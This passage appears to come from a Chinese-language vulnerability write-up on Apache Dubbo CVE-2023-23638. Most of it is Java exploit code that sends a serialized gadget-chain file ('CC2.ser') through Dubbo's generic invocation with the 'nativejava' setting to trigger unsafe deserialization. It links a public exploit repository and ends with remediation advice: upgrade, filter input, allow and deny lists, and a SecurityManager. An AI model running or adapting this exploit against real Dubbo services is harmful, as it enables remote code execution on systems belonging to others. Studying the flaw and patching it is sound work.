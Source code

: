             System.err.println("invokeSayHello(return): " + result);  
            latch.await();  
        }  
      
      
    //payload2  
        public static void invokeSayHello2() throws Exception {  
            setGenericService(true);  
            //dubbo 2.x 下面配置生效  
            RpcContext.getContext().setAttachment("generic", "nativejava");  
            byte[] payload = getBytesByFile("CC2.ser");  
            Object result = genericService.$invoke("sayHello", new String[]{"java.lang.String"}, new Object[]{payload});  
            CountDownLatch latch = new CountDownLatch(1);  
      
            CompletableFuture<String> future = RpcContext.getContext().getCompletableFuture();  
            future.whenComplete((value, t) -> {  
                System.err.println("invokeSayHello(whenComplete): " + value);  
                latch.countDown();  
            });  
      
            System.err.println("invokeSayHello(return): " + result);  
            latch.await();  
        }  
        public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {  
            Field field = obj.getClass().getDeclaredField(fieldName);  
            field.setAccessible(true);  
            field.set(obj, value);  
        }  
        public static byte[] getBytesByFile(String pathStr) {  
            File file = new File(pathStr);  
            try {  
                FileInputStream fis = new FileInputStream(file);  
                ByteArrayOutputStream bos = new ByteArrayOutputStream(1000);  
                byte[] b = new byte[1000];  
                int n;  
                while ((n = fis.read(b)) != -1) {  
                    bos.write(b, 0, n);  
                }  
                fis.close();  
                byte[] data = bos.toByteArray();  
                bos.close();  
                return data;  
            } catch (Exception e) {  
                e.printStackTrace();  
            }  
            return null;  
        }  
    }  
    

工具  
https://github.com/YYHYlh/Apache-Dubbo-CVE-2023-23638-exp/  
 **修复建议**  
官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级  
至安全版本，建议您在升级前做好数据备份工作，避免出现意外。  
https://github.com/apache/dubbo/releases  
1.限制用户输入，过滤恶意数据，可以减少攻击者利用反序列化漏洞的可能性。  
2.配置黑白名单，限制可序列化的类集合。  
3.使用 Java 的安全管理器（SecurityManager）来限制反序列化操作的  
权限，例如限制访问文件系统、网络等操作。
